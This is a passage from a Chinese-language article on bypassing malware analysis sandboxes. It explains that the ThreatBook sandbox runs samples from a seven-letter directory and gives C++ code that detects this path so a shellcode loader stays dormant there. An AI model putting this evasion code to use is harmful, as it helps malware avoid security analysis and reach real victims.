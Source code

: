 除此之外，这里也提一嘴对特定沙箱的绕过方法：其实对特定沙箱绕过是比较容易的，尤其是沙箱能够开放其自己的很多信息的情况下：

8、反”微步“沙箱：这里拿微步沙箱举例子，简单使用两次微步的沙箱，你会发现其存在一个非常简单但是实用的特征，他总是把样本放到一个形如，如下路径的磁盘位置进行运行：

`C:\\[A-Za-z]{7}\\样本名称`

如下是一次运行沙箱运行截图：

![image-20231206200509385.png](assets/1703640419-d5e4dd2fd303a6b57a42a7ce434346da.png)

这里我们直接锁定路径，正则匹配，如果出现再这种目录下，不释放 shellcode 即可：

代码实现如下：

```php
​  
/\*  
    根据沙箱放置样本路径特征对抗微步沙箱  

\*/  
bool checkWEIBU() {  
    char currentProcessPath\[MAX\_PATH + 1\];  
    GetModuleFileName(NULL, currentProcessPath, MAX\_PATH + 1);  
    std::string input(currentProcessPath);  
    std::regex pattern(R"(C:\\\\\[A-Za-z\]{7}\\\\MyAESLoader\\.exe)");  
    std::smatch matches;  
​  
    if (std::regex\_search(input, matches, pattern)) {  
        return false;  
    }  
    else {  
        return true;  
    }  
}
```
